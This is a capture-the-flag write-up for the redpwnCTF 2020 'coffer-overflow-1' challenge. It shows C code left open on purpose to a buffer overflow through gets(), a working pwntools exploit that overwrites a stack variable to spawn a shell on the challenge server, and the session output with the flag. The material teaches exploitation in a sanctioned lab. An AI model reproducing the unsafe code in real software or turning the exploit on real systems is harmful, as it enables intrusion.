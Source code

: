 # coffer-overflow-1

Author: [roerohan](https://github.com/roerohan)

This is a simple buffer overflow challenge.

# Requirements

- Basic Buffer overflow.

# Source

- [coffer-overflow-1](./coffer-overflow-1).

```
The coffers keep getting stronger! You'll need to use the source, Luke.

nc 2020.redpwnc.tf 31255
```

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```

# Exploitation

Check out [coffer-overflow-0](../coffer-overflow-0) for some details. You can checkout how buffer overflow works [here](https://github.com/csivitu/Incore-Sessions/blob/master/Buffer%20Overflow/Session-1.md).
<br />

We see in the code snippet that `name` is alloted 16 bytes, and `code` is alloted 8 bytes (long, 64-bit). Also, the `gets()` function is used, which does not check the size of the input. So, we can simply write past the space alloted for `name` and write into `code`, the value `0xcafebabe` in little endian.
<br />

We can use `pwntools` for the same. As discussed in `coffer-overflow-0`, this function will take up 32 bytes in the stack. The last 8 will store `code`, so we can write 24 random characters followed by `0xcafebabe` in little endian.

```python
import pwn

r = pwn.remote('2020.redpwnc.tf', 31255)

rep = b'a'*24 + pwn.p64(0xcafebabe)
print(rep)
r.sendline(rep)
r.interactive()
```

Run this program using `python`.

```bash
$ python cof1.py 
[+] Opening connection to 2020.redpwnc.tf on port 31255: Done
b'aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca\x00\x00\x00\x00'
[*] Switching to interactive mode
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

The flag is:

```
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```